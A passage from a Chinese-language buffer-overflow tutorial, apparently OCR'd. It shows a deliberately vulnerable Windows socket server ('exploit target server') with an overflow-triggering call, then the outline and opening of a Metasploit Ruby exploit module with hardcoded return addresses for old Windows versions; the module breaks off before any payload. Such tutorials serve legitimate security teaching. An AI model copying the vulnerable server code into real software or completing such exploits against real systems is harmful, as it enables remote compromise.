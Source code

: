         cout<<"                exploit target server 1.0          "<<endl;
        cout<<"*****************************************************"<<endl;
        listen(sock, 4);
        length = sizeof(struct sockaddr);
        do{
            msgsock = accept(sock, (struct sockaddr*)&sock_client, (int *)&length);
            if(msgsock==-1)
            {
                cout<<"accept error!"<<endl;
                break;
            }
            else
                do
                {
                    memset(buf, 0, sizeof(buf));
                    if((receive_len=recv(msgsock, buf, sizeof(buf), 0))<0)
                    {
                        cout<<"reading stream message error!"<<endl;
                        receive_len = 0;
                    }
                    msg_display(buf);		//trigged the overflow
                }while(receive_len);
                closesocket(msgsock);
        }while(1);
        WSACleanup();
    }

### 4、开发exploit

#### 4.1 Ruby开发exploit的正常结构

	class xxx

         def initialize
         #定义模块初始化信息。如漏洞使用的操作系统平台、为不同操作系统指明不同的返回地址
         #指明shellcode中禁止出现的特殊字符、漏洞相关的描述、URL引用、作者信息等
         end

         def exploit
         #将填充物、返回地址、shellcode等组织成最终的attack_buffer，并发送
         end

    end

#### 4.2 Ruby开发“傻瓜式”Exploit

	#!/usr/bin/env ruby
    require 'msf/core'      # it is similar to 'include' in C language
    class Metasploit3 < Msf::Exploit::Remote
        include Msf::Exploit::Remote::Tcp
        def initialize(info = {})
            super(update_info(info,
                'Name'=>'failwest_test',
                'Platform'=>'win',
                'Targets' => [
                    [ 'Windows 2000',{ 'Ret' => 0x77F8948B } ],
                    [ 'Windwos xp sp2',{ 'Ret' => 0x7C914393 } ],
                    [ 'Windwos xp sp3',{ 'Ret' => 0x7c86467b} ],
                    ],
                'Payload' => {
                    'Space' => 300,
                    'BadChars' => '\x00',
                    'StackAdjustment' => -3500,
                    }))
        end
